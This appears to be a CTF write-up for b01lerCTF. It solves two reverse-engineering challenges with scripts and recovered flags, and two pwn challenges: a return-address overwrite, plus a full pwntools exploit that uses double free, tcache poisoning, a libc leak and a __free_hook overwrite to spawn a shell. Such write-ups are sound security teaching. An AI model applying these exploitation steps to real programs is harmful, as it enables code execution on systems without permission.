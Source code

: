 ```yaml
---
title: "BoilerCTF Write-up"
date: 2024-04-15
draft: false
tags : ["write-up", "b01lerctf"]

---
```


## Reverse
### Annnnnnny-Second-Now

The function `super_optimized_calculation` is a Fibonacci generator.
To solve this chall, we just use the 90th Fibonacci number and modulo it by each number in the v6 array.
![alt text](/posts/b01ler-wu/image.png)
Code: 
```python
v6=[0]*25  

v6[0] = 35831;
v6[1] = 143;
v6[2] = 1061;
v6[3] = 877;
v6[4] = 29463179;
v6[5] = 229;
v6[6] = 112;
v6[7] = 337;
v6[8] = 1061;
v6[9] = 47;
v6[10] = 29599;
v6[11] = 145;
v6[12] = 127;
v6[13] = 271639;
v6[14] = 127;
v6[15] = 353;
v6[16] = 193;
v6[17] = 191;
v6[18] = 337;
v6[19] = 1061;
v6[20] = 193;
v6[21] = 353;
v6[22] = 269;
v6[23] = 487;
v6[24] = 245;

a = 2880067194370816120 & ((1<<64)-1)

for i in v6:
    print(chr(a%i),end='')

```
### js-safe

After deobfuscating the code, we can see that the function `addToPassword` use some operation to check the pass code. If true, it uses this pass code as a key to decrypt the AES encrypted flag.

```javascript
function addToPassword(_0x43b7e8) {
    if (_0x12b1c8.length < 0x6) {
      _0x12b1c8 += _0x43b7e8;
      _0x38a66f();
      if (_0x12b1c8.length === 0x6) {
        let _0xf3bbf = Array(0x6);
        for (let _0x2c8c6a = 0x0; _0x2c8c6a < 0x6; _0x2c8c6a += 0x1) {
          _0xf3bbf[_0x2c8c6a] = _0x12b1c8[_0x2c8c6a].charCodeAt(0x0);
        }
        let _0x4cedc7 = true;
        _0x4cedc7 &= _0xf3bbf[0x4] == _0xf3bbf[0x1] - 0x4;
        _0x4cedc7 &= _0xf3bbf[0x1] == (_0xf3bbf[0x0] ^ 0x44);
        _0x4cedc7 &= _0xf3bbf[0x0] == _0xf3bbf[0x2] - 0x7;
        _0x4cedc7 &= _0xf3bbf[0x3] == (_0xf3bbf[0x2] ^ 0x25);
        _0x4cedc7 &= _0xf3bbf[0x5] == (_0xf3bbf[0x0] ^ 0x14);
        _0x4cedc7 &= _0xf3bbf[0x4] == _0xf3bbf[0x1] - 0x4;
        _0x4cedc7 &= _0xf3bbf[0x0] == (_0xf3bbf[0x3] ^ 0x22);
        _0x4cedc7 &= _0xf3bbf[0x0] == _0xf3bbf[0x2] - 0x7;
        _0x4cedc7 &= _0xf3bbf[0x0] == _0xf3bbf[0x5] + 0xc;
        _0x4cedc7 &= _0xf3bbf[0x2] == _0xf3bbf[0x4] + 0x47;
        _0x4cedc7 &= _0xf3bbf[0x2] == (_0xf3bbf[0x5] ^ 0x13);
        _0x4cedc7 &= _0xf3bbf[0x5] == (_0xf3bbf[0x3] ^ 0x36);
        _0x4cedc7 &= 0x52 == _0xf3bbf[0x3];
        if (_0x4cedc7) {
          document.getElementById("display").classList.add("correct");
          let _0x401b01 = CryptoJS.AES.decrypt("U2FsdGVkX19WKWdho02xWkalqVZ3YrA7QrNN4JPOIb5OEO0CW3Qj8trHrcQNOwsw", _0x12b1c8).toString(CryptoJS.enc.Utf8);
          console.log(_0x401b01);
          document.getElementById("display").textContent = _0x401b01;
        } else {
          document.getElementById("display").classList.add("wrong");
        }
      }
    }
}
```
After calculating, we get the pass code is `p4wR0d`. Use this pass code to decrypt the flag.

Flag: `bctf{345y-p4s5w0rd->w<}`


## Pwn
### shall-we-play-a-game

Because we can input v7 with the length 86, we can overwrite the return address of the function `main` to the address of the function `global_thermo_nuclear_war` to get the flag.

![alt text](/posts/b01ler-wu/image-1.png)
### easy-note

This challenge give us a menu which have 5 options: add, delete, view, edit and resize. The binary allow us to modify the content of note whatever it is free or not. To solve it, I use the UAF and tcache poisoning technique to get the shell.

First, we will use double free to leak the address of heap.
```python
add(0,0x80) # use for heap leak
add(1,0x80) # use for libc leak
add(2,0x80) # Prevent consolidation with top chunk

# Use double free to leak heap address
delete(0)
delete(0)

view(0)

heap =u64(p.recvline().strip().ljust(8, b'\x00')) - 0x260
log.info('[+] Heap base: '+hex(heap))
```
With heap base address, I can get chunk inside the `tcache_perthread_struct` by overwriting the fd of the chunk at index 0(now it is 0x80 tcache). 


```python
edit(0,8,p64(heap+0x10))
```
Next, I allocate 2 chunks to get the chunk inside the `tcache_perthread_struct`. Then, I overwrite the size value of the 0x80 tcache bin, make it look like full.
```python
add(3,0x80)
add(4,0x80)
edit(4,8,p64(0x0700000000000000))
```
Now, I free the chunk at index 1 to make it into the unsorted bin and leak the libc address.

```python
delete(1)
view(1)
```
With libc address, I edit the first 0x80 tcache value is __free_hook and make the size value of 0x80 tcache bin is 0. Then, I allocate a 0x80 chunk to get the __free_hook address. 
```python
edit(4,0x78+8,b'\x00'*0x78+p64(libc.sym['__free_hook']))
add(5,0x80)
```
Finally, I overwrite the __free_hook with the address of system and get the shell.
```python
edit(5,8,p64(libc.sym['system']))
edit(0,8,'/bin/sh\x00')
delete(0)

```

#### Full exploit
```python
from pwn import *

exe = ELF("./chal_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.27.so")

p = process([exe.path])



def add(pos,size):
    p.sendline(b'1')
    p.recvuntil(b'Where?')
    p.sendline(str(pos).encode())
    p.recvuntil(b'size?')
    p.sendline(str(size).encode())
def delete(pos):
    p.sendline(b'2')
    p.recvuntil(b'Where?')
    p.sendline(str(pos).encode())
def view(pos):
    p.sendline(b'3')
    p.recvuntil(b'Where?')
    p.sendline(str(pos).encode())    
def edit(pos,size,mes):
    p.sendline(b'4')
    p.recvuntil(b'Where?')
    p.sendline(str(pos).encode())
    p.recvuntil(b'size?')
    p.sendline(str(size).encode())
    p.sendline(mes) 

def resize(pos,size):
    p.sendline(b'6')
    p.recvuntil(b'Where?')
    p.sendline(str(pos).encode())
    p.recvuntil(b'size?')
    p.sendline(str(size).encode())


add(0,0x80)
add(1,0x80)
add(2,0x80)

delete(0)
delete(0)

view(0)

heap =u64(p.recvline().strip().ljust(8, b'\x00')) - 0x260
log.info('[+] Heap base: '+hex(heap))

# tcache poisoning

edit(0,8,p64(heap+0x10))
add(3,0x80)
add(4,0x80)
edit(4,8,p64(0x0700000000000000))

# Leak libc
delete(1)
view(1)

libc.address = u64(p.recvline().strip().ljust(8, b'\x00')) - 0x3ebca0+0x3c000
log.info('[+] Libc base: '+hex(libc.address))
log.info("[+] Free hook address: "+hex(libc.sym['__free_hook']))

edit(4,0x78+8,b'\x00'*0x78+p64(libc.sym['__free_hook']))
add(5,0x80)

edit(5,8,p64(libc.sym['system']))
edit(0,8,'/bin/sh\x00')
delete(0)

p.interactive()
```
---